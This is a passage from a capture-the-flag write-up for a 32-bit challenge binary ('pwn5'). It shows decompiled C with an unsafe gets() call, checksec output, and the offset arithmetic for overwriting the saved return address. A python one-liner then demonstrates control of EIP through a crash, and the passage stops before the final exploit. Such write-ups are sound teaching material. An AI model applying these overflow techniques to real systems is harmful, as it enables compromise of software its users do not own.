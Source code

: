 So it looks like `change_major` is the only function of interest that can be called from `first_day_normal`.

```c
// C code generated by Hex-Rays decompiler.
int change_major()
{
  char dest; // [esp+Ch] [ebp-1Ch]@1

  getchar();
  gets(&dest);
  strncpy(&dest, major, 0x14u);
  return printf("You changed your major to: %s\n");
}
```

Perfect, here we see that we are provided a call to `gets` with the stack-based buffer `dest`. Assuming there are no stack canaries, this should be a relatively simple buffer overflow to land.

```Python
In [1]: from pwn import *

In [2]: elf = ELF('./pwn5')
[*] '/home/user/ctf/2018/tamuctf/pwn/pwn5/pwn5'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

No stack canaries and even better, no PIE, so we can base any ROP gadgets out of the binary itself without the need to leak any addresses. From the point of entering the `change_major` function, it consumes a character using `getchar` prior to calling `gets`. `dest` is located at 0x1c below the old stack pointer. To reach the old ebp will only take 0x1c (28) bytes. 4 additional bytes, now up to 0x20 (32), to overwrite the old ebp and reach the stored eip. So with 0x20 bytes of filler, the next 4 bytes should give us control of execution.

```console
$ python -c 'print("John\nDoe\nF#\nn2\n" + "A"*0x20 + "\xff"*4)' | strace -ifv -e trace=signal ./pwn5 > /dev/null
strace: [ Process PID=21135 runs in 32 bit mode. ]
[ffffffff] --- SIGSEGV {si_signo=SIGSEGV, si_code=SEGV_MAPERR, si_addr=0xffffffff} ---
[????????] +++ killed by SIGSEGV (core dumped) +++
Segmentation fault (core dumped)
```

As we expected, we got a SIGSEGV with the program trying to execute at address 00xffffffff which are the 4 bytes we placed where we assumed eip was stored on the stack. From here, we can now begin developing our exploit.

NOTE: A good thing to take note of is the method of which we are obtaining our overflow, `gets`. `gets` will, according to the man page, read "a line from stdin into the buffer pointed to...until either a terminating newline or EOF, which it replaces with a null bytes ('\0')." Here we establish our character restriction as no newlines, 0x0a bytes, can be used prematurely or it will end our overflow and be replaced with a NUL byte. The upside is that with `gets`, we are not restricted from using a NUL byte ourselves.
